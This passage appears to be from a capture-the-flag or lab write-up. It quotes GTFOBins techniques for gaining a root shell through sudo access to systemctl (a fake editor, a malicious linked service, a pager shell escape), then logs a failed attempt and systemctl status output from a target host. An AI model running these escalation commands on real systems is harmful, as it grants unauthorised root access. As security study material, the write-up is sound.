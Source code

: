 [systemctl](https://gtfobins.github.io/gtfobins/systemctl)

[**#Sudo**]

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
1. 
```
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
```
2. 
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
3. This invokes the default pager, which is likely to be [`less`](https://gtfobins.github.io/gtfobins/less/), other functions may apply.
    ```
    sudo systemctl
    !/bin/sh
    ```

`sudo /usr/bin/systemctl -l status`

`!`:
```
Command not available (press RETURN)
```
❌ Failed Step.

`/usr/bin/systemctl -l status`:
```
● observer
    State: running
    Units: 235 loaded (incl. loaded aliases)
     Jobs: 0 queued
   Failed: 0 units
    Since: Tue 2024-09-24 11:09:38 CEST; 2h 13min ago
  systemd: 252.12-1~deb12u1
   CGroup: /
           ├─init.scope
           │ └─1 /sbin/init
           ├─system.slice
           │ ├─cron.service
           │ │ ├─304 /usr/sbin/cron -f
           │ │ ├─320 /usr/sbin/CRON -f
           │ │ ├─328 /bin/sh -c /opt/observer ←
           │ │ └─331 /opt/observer
           │ ├─dbus.service
           │ │ └─311 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
           │ ├─ifup@enp0s3.service
           │ │ └─329 dhclient -4 -v -i -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3
           │ ├─ssh.service
           │ │ └─434 "sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"
           │ ├─system-getty.slice
           │ │ └─getty@tty1.service
```